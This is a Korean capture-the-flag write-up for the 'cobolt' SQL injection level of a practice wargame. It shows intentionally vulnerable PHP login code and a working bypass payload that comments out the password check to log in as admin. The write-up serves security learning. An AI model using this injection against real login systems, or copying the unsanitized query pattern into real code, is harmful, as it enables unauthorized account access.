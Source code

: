 # **LOS gramlin**

## <img src="./img/key.png" width="25"> **Keys**
>php source
```php
<?php
  <?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```
`id` 값이 `admin` 인 것만 확인하기때문에 `id` 에 `admin` 을 넣고 뒤에 주석처리를 하면 된다.  


## <img src="./img/road.png" width="25"> **Query**
>Query
```php
select id from prob_cobolt where id='admin'#
```

>Input value
```
http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin%27%23
```
`%27` 은 `'` 이고, `%23` 은 `#` 이다.

## <img src="./img/attack.png" width="25"> **Attack**
<img src="./img/cobolt1.png" width="700">